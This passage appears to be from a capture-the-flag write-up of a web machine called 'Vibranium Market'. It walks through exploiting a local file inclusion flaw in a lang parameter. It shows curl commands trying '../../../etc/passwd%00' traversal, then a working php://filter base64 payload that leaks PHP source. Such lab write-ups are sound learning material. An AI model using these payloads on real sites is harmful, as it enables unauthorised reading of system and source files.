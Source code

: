 Right off the bat it found several empty files. sercret.txt looked promising, but pulling it down revealed that it was just a troll. That left just index.php, so I went ahead and pulled it down. Here's the interesting part: 

```
root@kali:~/pwn# curl http://`cat target.txt`
.
.
.
     <header class="masthead mb-auto">
        <div class="inner">
          <h3 class="masthead-brand">Vibranium Market</h3>
          <nav class="nav nav-masthead justify-content-center">
            <a class="nav-link active" href="#">Home</a>
            <!-- <a class="nav-link active" href="?lang=fr">Fr/a> -->
          </nav>
        </div>
      </header>
.
.
.
```

One of the lines has been commented out. From the looks of it, it uses the lang parameter to change the page's language. In this case, passing it fr changes the language to French. I figured fr probably corresponded to fr.php which was identified by gobuster. I gave it a shot and sure enough the language changes to French:

```
root@kali:~/pwn# curl "http://`cat target.txt`?lang=fr"
.
.
.
      <main role="main" class="inner cover">
        <h1 class="cover-heading">Coming soon</h1>
        <p class="lead">
          Prochaine ouverture du plus grand marché du vibranium. Les produits viennent directement du wakanda. Restez à l'écoute!        </p>
        <p class="lead">
          <a href="#" class="btn btn-lg btn-secondary">Learn more</a>
        </p>
      </main>
.
.
.
```

Since lang is reading the contents of a local file, I made the assumption that this was vulnerable to some kind of local file inclusion attack. I tried passing it variations of "../../../etc/passwd%00" but no luck there. So then I tried using php filters which turned out to be more promising. The contents of fr.php were returned Base-64 encoded, and decoding it revealed the contents of fr.php: 

```
root@kali:~/pwn# curl -s "http://`cat target.txt`/?lang=php://filter/convert.base64-encode/resource=fr" | head -1
PD9waHAKCiRtZXNzYWdlPSJQcm9jaGFpbmUgb3V2ZXJ0dXJlIGR1IHBsdXMgZ3JhbmQgbWFyY2jDqSBkdSB2aWJyYW5pdW0uIExlcyBwcm9kdWl0cyB2aWVubmVudCBkaXJlY3RlbWVudCBkdSB3YWthbmRhLiBSZXN0ZXogw6AgbCfDqWNvdXRlISI7
root@kali:~/pwn# curl -s "http://`cat target.txt`/?lang=php://filter/convert.base64-encode/resource=fr" | head -1 | base64 -d
<?php

$message="Prochaine ouverture du plus grand marché du vibranium. Les produits viennent directement du wakanda. Restez à l'écoute!";
```
